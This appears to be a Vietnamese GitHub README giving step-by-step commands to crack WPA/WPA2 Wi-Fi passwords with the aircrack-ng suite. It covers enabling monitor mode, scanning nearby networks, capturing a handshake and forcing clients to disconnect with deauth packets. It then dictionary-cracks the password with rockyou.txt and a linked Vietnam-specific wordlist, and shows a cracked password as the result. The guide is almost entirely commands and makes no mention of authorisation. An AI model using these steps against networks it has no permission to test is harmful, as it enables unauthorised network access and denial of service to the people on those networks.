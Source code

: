 ## 🛠️ Các bước thực hiện hack Wi-Fi (WPA/WPA2)

1. Kiểm tra các thiết bị kết nối mạng không dây.

```
iwconfig
```
2. Bật chế độ monotor
   
```
sudo airmon-ng start wlan0
```
→ **airmon-ng** : bật tắt chế độ monitor và dừng tiến trình gây xung đột.

3. Dừng các dịch vụ gây xung đột

```
sudo airmon-ng check kill
```
4. Quét và giám sát các mạng wifi xung quanh

```
sudo airodump-ng wlan0mon
```
*công dụng airodump-ng*
  - thu thập được : SSID ( tên mạng ), BSSID ( địa chỉ MAC ), kênh ( channel ), mã hóa (WEP/WPA/WPA2), số lượng client kết nối.
  - Bắt handshake (quá trình xác thực giữa thiết bị và router) dùng để dò mật khẩu.
→ Quét và thu thập thông tin mạng Wi-Fi.

    **Ctrl + C** để thoát.

5. Bắt handshake WPA/WPA2 từ một Wi-Fi và lưu vào file `wpa2hack.cap`.

```
sudo airodump-ng --bssid <bssid> --channel <ch> --write wpa2hack wlan0mon
```

6. Gửi gói `deauth` để ngắt kết nối thiết bị khỏi Wi-Fi.
   
```
sudo aireplay-ng --deauth 4 -a <bssid> -c <station> wlan0mon
```
-> **Mục đích** : ép thiết bị kết nối lại để bết handshake.

7. Dò mật khẩu Wi-Fi bằng file từ điển `rockyou.txt`.

```
sudo aircrack-ng <file.cap> -w /usr/share/wordlists/rockyou.txt

```
-> mọi người có thể download file sau để dò chính xác hơn các mật khẩu ở Việt Nam
>link: [vietpass.txt](https://github.com/user-attachments/files/21192498/vietpass.txt)



---

### ✅ Kết quả:

```
Sanh Dieu [ 00001111 ]
```
